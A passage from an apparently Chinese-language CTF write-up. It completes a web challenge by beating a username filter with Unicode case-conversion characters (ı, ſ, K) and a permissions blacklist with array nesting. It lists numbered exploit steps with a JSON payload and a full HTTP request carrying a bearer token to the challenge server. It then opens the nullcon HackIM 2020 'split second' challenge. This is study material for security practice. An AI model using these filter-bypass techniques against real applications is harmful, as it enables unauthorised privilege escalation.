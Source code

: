 

其实是可以的，在字符转换中，有些奇奇怪怪的字符，也是会被转换的。

比如：在toUpperCase()函数中，字符`ı`会转变为`I`，字符`ſ`会变为`S`。在toLowerCase()函数中，字符`İ`会转变为`i`，字符`K`会转变为`k`。

此时我们便可构造`hacKtm`来绕过。

紧接着往下，我们可以发现185行，对权限做了黑名单校验。禁止我们加入n的权限。在这里，可以直接通过数组绕过。将p放到数组里。

![](http://img.5am3.com/5am3/img/20200205144320.png)



至此，这道题基本已经OK了，接下来就是利用。

1. 注册`hacKtm`用户
2. 调用updateUser接口。

```json
{"color": "0xDEDBEE", "rights": [["n"]]}
```

3. 调用serverInfo接口，获取n
4. 调用init接口，传入p=n，q=1

```http
POST /init HTTP/1.1
Host: 167.172.165.153:60000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjJiNTI3MjBkLTEyOGEtNDllYy1iMTc5LWU0NDUwZTdlODcxMSIsImlhdCI6MTU4MDg4NTQ1MH0.QKvGRVTj7IIpZvdtqPSpBNFFjl7woPBu7tSTI3gQLNo
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 314

{"p":"54522055008424167489770171911371662849682639259766156337663049265694900400480408321973025639953930098928289957927653145186005490909474465708278368644555755759954980218598855330685396871675591372993059160202535839483866574203166175550802240701281743391938776325400114851893042788271007233783815911979", "q":1}
```

5. 拿到返回token，置入cookie中，请求/flag接口

![](http://img.5am3.com/5am3/img/20200205145220.png)


## nullcon HackIM 2020 - split second

> Split that Shit
> http://web2.ctf.nullcon.net:8081/
>
> 源码：https://github.com/nullcon/hackim-2020/tree/master/web/split_second

打开题目，可以审查元素发现第一个hint。
![](http://img.5am3.com/5am3/img/20200209124732.png)
然后`http://web2.ctf.nullcon.net:8081/source`拿到源码，开始代码审计之旅。
